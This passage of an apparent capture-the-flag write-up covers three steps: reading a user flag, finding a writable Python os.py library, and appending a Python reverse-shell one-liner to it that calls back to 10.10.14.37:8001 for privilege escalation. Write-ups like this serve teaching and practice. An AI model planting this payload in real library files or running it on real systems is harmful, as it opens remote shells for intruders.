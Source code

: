 11. I spawned a tty prompt using Python.  From this shell, I was able to view the contents of the user.txt file:

    ![image-20210130215525479](.Report.assets/image-20210130215525479.png)
    user.txt:  a9ed20acecd6c5b6b52f474e15ae9a11

12. After checking for writeable files, I discovered I had write access to one of the Python libraries `/usr/lib/python2.7/os.py`.
    ![image-20210130221128874](.Report.assets/image-20210130221128874.png)

13. Searching for possible exploits led me to this page:  https://book.hacktricks.xyz/linux-unix/privilege-escalation which described a line of code that could be appended to the end of a library which would be executed along with any calls to the library.   I modified this code for my IP and port, then started a netcat listener and waited.

    ```bash
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.37",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    ```
